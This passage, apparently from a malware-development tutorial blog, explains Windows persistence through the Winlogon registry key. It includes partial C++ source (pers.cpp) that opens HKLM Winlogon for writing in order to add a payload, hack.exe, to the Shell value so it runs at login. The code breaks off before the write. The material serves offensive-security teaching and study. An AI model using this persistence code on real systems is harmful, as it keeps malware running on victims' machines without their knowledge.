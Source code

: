 ![pers](./images/58/2022-06-12_14-59.png){width="80%"}    

As you can see in both cases, the malware will be executed during Windows authentication.    

But there are interesting caveat. For example if we update registry key as following logic:    

```cpp
/*
pers.cpp
windows persistence via winlogon keys
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/06/12/malware-pers-7.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // shell
  const char* sh = "explorer.exe,
  Z:\\2022-06-12-malware-pers-7\\hack.exe";

  // startup
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, 
  (LPCSTR)
  "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon", 
  0 , KEY_WRITE, &hkey);
```
